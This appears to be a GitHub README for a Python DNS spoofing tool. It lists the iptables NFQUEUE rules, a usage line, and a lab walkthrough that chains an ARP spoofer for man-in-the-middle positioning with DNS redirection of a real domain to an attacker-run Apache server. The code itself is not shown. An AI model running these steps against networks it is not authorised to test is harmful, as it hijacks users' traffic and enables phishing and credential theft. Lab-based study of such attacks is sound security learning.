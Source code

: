 # DNS Spoofer

## Requirements

* Python 2 or 3
* Scapy and netfilter modules
* Domain to be spoofed
* IP address webserver to redirect to

## Usage

```shell
$ sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
```

or

```shell
$ sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0
$ sudo iptables -I INPUT -j NFQUEUE --queue-num 0
```

## Usage

```shell
usage: dns_spoofer.py [-h] [-d DOMAIN] [-r IP]
```

### Kicking the tyres

Choose a domain to spoof and check it is reachable:

```shell
@kali:~$ ping -c 1 sqa.fyicenter.com
PING sqa.fyicenter.com (74.208.236.35) 56(84) bytes of data.
64 bytes from 74-208-236-35.elastic-ssl.ui-r.com (74.208.236.35): icmp_seq=1 ttl=52 time=131 ms

--- sqa.fyicenter.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 131.125/131.125/131.125/0.000 ms

```

Become MitM by running the [arp_spoofer](/arp_spoofer)

```shell
@kali:~$ sudo python3 arp_spoofer.py
[sudo] password for <user>: 
[+] Setting forward
[+] Packets sent: 63
```

Run DNS spoofer:

```shell
@kali:~$ sudo python3 dns_spoofer.py -q forward
[+] Starting apache2 service...
              
```

On Windows testlab machine, visit http://sqa.fyicenter.com in browser and check that the Kali apache server comes up instead.

```shell
@kali:~$ sudo python3 dns_spoofer.py
[+] Starting apache2 service...
[+] Spoofing Target
                   
```

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)